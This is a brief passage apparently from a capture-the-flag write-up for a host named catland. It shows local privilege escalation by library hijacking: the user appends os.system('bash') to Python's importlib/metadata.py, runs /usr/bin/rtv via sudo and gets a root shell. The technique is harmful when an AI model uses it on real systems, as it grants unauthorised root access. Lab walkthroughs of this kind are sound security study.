 ```bash
        from pkg_resources import load_entry_point
...
```

* Modify library for payload shell

```bash 
laura@catland:~$ find / -name metadata.py -print 2>/dev/null
/usr/lib/python3.9/importlib/metadata.py

laura@catland:~$ vi /usr/lib/python3.9/importlib/metadata.py

ADD os.system("bash")

laura@catland:~$ sudo /usr/bin/rtv --help
root@catland:/home/laura# id
uid=0(root) gid=0(root) groups=0(root)
```